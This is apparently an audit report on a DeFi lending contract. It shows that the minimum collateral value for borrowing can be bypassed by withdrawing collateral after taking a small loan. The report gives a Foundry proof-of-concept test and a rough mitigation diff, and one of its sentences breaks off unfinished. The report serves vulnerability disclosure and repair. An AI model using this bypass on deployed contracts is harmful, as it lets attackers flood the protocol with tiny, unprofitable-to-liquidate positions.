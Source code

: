 ## The minimum collateral value can be bypassed

## Summary 

`minimumCollateralValueForBorrowing` can be bypassed allowing for small position with small collateral.

## Details

A `minimumCollateralValueForBorrowing` is set at a base of 2500 usd. 
The reason for this value is to * help prevent saturation of the contract with small amounts of positions and to ensure that liquidating the position yields non-trivial rewards *. However this value can be bypassed if we the user if he withdraws the collateral after 

## POC

```sol
// SPDX-License-Identifier: BUSL 1.1
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";
import "../../price_feed/tests/ForcedPriceFeed.sol";


contract TestCollateral is Deployment
	{
	// User wallets for testing
    address public constant alice = address(0x1111);
    address public constant bob = address(0x2222);
    address public constant charlie = address(0x3333);

	bytes32 public collateralPoolID;


	constructor()
		{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();

		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.prank(address(daoVestingWallet));
		salt.transfer(DEPLOYER, 1000000 ether);


		collateralPoolID = PoolUtils._poolID( wbtc, weth );

		// Mint some USDS to the DEPLOYER
		vm.prank( address(collateralAndLiquidity) );
		usds.mintTo( DEPLOYER, 2000000 ether );
		}


	function _userHasCollateral( address user ) internal view returns (bool)
		{
		return collateralAndLiquidity.userShareForPool( user, collateralPoolID ) > 0;
		}


	function _readyUser( address user ) internal
		{
		uint256 addedWBTC = 1000 * 10 ** 8 / 4;
		uint256 addedWETH = 1000000 ether / 4;

        // Deployer holds all the test tokens
		vm.startPrank( DEPLOYER );
		wbtc.transfer( user, addedWBTC );
		weth.transfer( user, addedWETH );
		vm.stopPrank();

//		console.log( "WBTC0: ", wbtc.balanceOf( user ) );

		vm.startPrank( user );
		wbtc.approve( address(collateralAndLiquidity), type(uint256).max );
        weth.approve( address(collateralAndLiquidity), type(uint256).max );
		usds.approve( address(collateralAndLiquidity), type(uint256).max );
		salt.approve( address(collateralAndLiquidity), type(uint256).max );
		usds.approve( address(collateralAndLiquidity), type(uint256).max );
		vm.stopPrank();
		}


    function setUp() public
    	{
    	_readyUser( DEPLOYER );
		_readyUser( alice );
		_readyUser( bob );
		_readyUser( charlie );
    	}


	// This will set the collateral / borrowed ratio at the default of 200%
	function _depositCollateralAndBorrowMax( address user ) internal
		{
		vm.startPrank( user );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(user), weth.balanceOf(user), 0, block.timestamp, true );

		uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(user);
		collateralAndLiquidity.borrowUSDS( maxUSDS );
		vm.stopPrank();
		}


	// This will set the collateral / borrowed ratio at the default of 200%
	function _depositHalfCollateralAndBorrowMax( address user ) internal
		{
		vm.startPrank( user );
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(user) / 2, weth.balanceOf(user) / 2, 0, block.timestamp, true );

		uint256 maxUSDS = collateralAndLiquidity.maxBorrowableUSDS(user);
		collateralAndLiquidity.borrowUSDS( maxUSDS );
		vm.stopPrank();
		}


	// Can be used to test liquidation by reducing BTC and ETH price.
	// Original collateral ratio is 200% with a minimum collateral ratio of 110%.
	// So dropping the prices by 46% should allow positions to be liquidated and still
	// ensure that the collateral is above water and able to be liquidated successfully.
	function _crashCollateralPrice() internal
		{
		vm.startPrank( DEPLOYER );
		forcedPriceFeed.setBTCPrice( forcedPriceFeed.getPriceBTC() * 54 / 100);
		forcedPriceFeed.setETHPrice( forcedPriceFeed.getPriceETH() * 54 / 100 );
			vm.stopPrank();
		}

    function test_edgeCase() public {
        		// Bob deposits collateral so alice can be liquidated
        vm.startPrank(bob);
		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtc.balanceOf(bob), weth.balanceOf(bob), 0, block.timestamp, false );
		vm.stopPrank();

		vm.startPrank( alice );
		uint256 wbtcDeposit = wbtc.balanceOf(alice) / 4;
		uint256 wethDeposit = weth.balanceOf(alice) / 4;

		collateralAndLiquidity.depositCollateralAndIncreaseShare(wbtcDeposit, wethDeposit, 0, block.timestamp, true );

        // Alice borrows USDS
        // uint256 maxBorrowable = collateralAndLiquidity.maxBorrowableUSDS(alice);
        collateralAndLiquidity.borrowUSDS( 10 );
        uint256 withdrawAlice = collateralAndLiquidity.maxWithdrawableCollateral(alice);
        //withdraw max withdrawable ...
        console.log(withdrawAlice);
		vm.warp( block.timestamp + 1 days );

        collateralAndLiquidity.withdrawCollateralAndClaim(withdrawAlice, 0, 0, block.timestamp);

		uint256 aliceValue = collateralAndLiquidity.userCollateralValueInUSD( alice );
        console.log(aliceValue); 

    }

}

//COVERAGE="yes" NETWORK="sep" forge test --match-path src/stable/tests/WithdrawColl.t.sol -vvv --rpc-url

```

In this test we can see that we actually don't need to continually have 2500 usd worth of collateral, it is just needed when creating the borrow. Users can easely bypass this check. This way a lot of insignificant could be opened and flood the system.

## Recommended Mitigation Steps

Make sure that position that are actively borrowing need to have at least have `minimumCollateralValueForBorrowing`. Only when repaying the debt this collateral should be withdrawable.


```diff
	function maxWithdrawableCollateral( address wallet ) public view returns (uint256)
		   ...

		// The maximum withdrawable value in USD
		uint256 maxWithdrawableValue = userCollateralValue - requiredCollateralValueAfterWithdrawal;
          ++    if(usdsBorrowedByUsers[wallet] > 0) return (userCollateralAmount *  maxWithdrawableValue / userCollateralValue ) - 
  `minimumCollateralValueForBorrowing`;
		// Return the collateralAmount that can be withdrawn
		return userCollateralAmount * maxWithdrawableValue / userCollateralValue;
   		}
```